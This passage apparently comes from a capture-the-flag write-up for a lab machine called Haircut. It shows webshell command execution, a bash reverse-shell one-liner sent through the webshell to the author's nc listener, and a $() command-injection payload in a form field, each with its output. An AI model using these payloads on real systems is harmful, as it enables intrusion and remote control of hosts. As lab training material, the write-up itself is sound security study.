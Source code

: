 When I check for my shell, it’s there:

    root@kali# curl http://10.10.10.24/uploads/0xdf.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

To go to a real shell, I’ll start and send that command to the webshell:`nc`

    root@kali# curl -G http://10.10.10.24/uploads/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'"
    

At a listener:`nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.24.
    Ncat: Connection from 10.10.10.24:43828.
    bash: cannot set terminal process group (1225): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@haircut:~/html/uploads$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Alternative Injection

I noticed the none of were triggering the filter, so I went for command injection that way as well. The command throws errors onto the page:`` `$()```curl`

    root@kali# curl http://10.10.10.24/exposed.php -d 'formurl=10.10.14.15/$(ping -c 1 10.10.14.15)&submit=go'
    <html>
            <head>
                    <title>Hairdresser checker</title>
            </head>
            <body>
            <form action='exposed.php' method='POST'>
                    <span>
                    <p>
                    Enter the Hairdresser's location you would like to check. Example: http://localhost/test.html
                    </p>
                    </span>
                    <input type='text' name='formurl' id='formurl' width='50' value='http://localhost/test.html'/>
                    <input type='submit' name='submit' value='Go' id='submit' />
            </form>
            <span>
                    <p>Requesting Site...</p>curl: option ---: is unknown
    curl: try 'curl --help' or 'curl --manual' for more information
            </span>
            </body>
    </html>
    
